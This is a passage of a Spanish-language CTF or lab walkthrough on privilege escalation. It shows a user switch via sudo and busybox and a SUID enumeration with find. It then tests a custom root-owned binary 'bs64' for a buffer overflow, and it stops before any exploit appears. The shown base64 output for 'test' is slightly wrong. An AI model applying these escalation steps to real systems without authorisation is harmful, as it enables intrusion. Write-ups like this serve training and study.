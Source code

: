 ```shell
sudo -u astu busybox sh
bash
```

Y con esto ya seremos dicho usuario.

## Escalation Privileges

Si listamos los permisos `SUID` que tenemos con este usuario veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2104987     16 -r-sr-xr-x   1 root     root        15776 Jan 20 01:06 /home/astu/secure/bs64
  2124017   1384 -rwsr-xr-x   1 root     root      1414168 Sep 28 14:49 /usr/sbin/exim4
  2097632     52 -rwsr-xr-x   1 root     root        52880 Mar 23  2023 /usr/bin/chsh
  2097756     48 -rwsr-xr-x   1 root     root        48896 Mar 23  2023 /usr/bin/newgrp
  2097767     68 -rwsr-xr-x   1 root     root        68248 Mar 23  2023 /usr/bin/passwd
  2097819     72 -rwsr-xr-x   1 root     root        72000 Oct 18 12:56 /usr/bin/su
  2097693     88 -rwsr-xr-x   1 root     root        88496 Mar 23  2023 /usr/bin/gpasswd
  2097751     60 -rwsr-xr-x   1 root     root        59704 Oct 18 12:56 /usr/bin/mount
  2097843     36 -rwsr-xr-x   1 root     root        35128 Oct 18 12:56 /usr/bin/umount
  2097626     64 -rwsr-xr-x   1 root     root        62672 Mar 23  2023 /usr/bin/chfn
  2105249    276 -rwsr-xr-x   1 root     root       281624 Jun 27  2023 /usr/bin/sudo
```

Vemos uno interesante que es el siguiente:

```
2104987  16 -r-sr-xr-x   1 root  root  15776 Jan 20 01:06 /home/astu/secure/bs64
```

Si probamos a ejecutar el binario veremos lo siguiente:

```shell
cd /home/astu/secure/
./bs64
```

Info:

```
Ingrese el texto: test
dGVdA==
```

Vemos que parece que el texto que ingresamos nos lo codifica en `Base64`, pero si probamos a desbordar la memoria.

```shell
./bs64
```

Info:
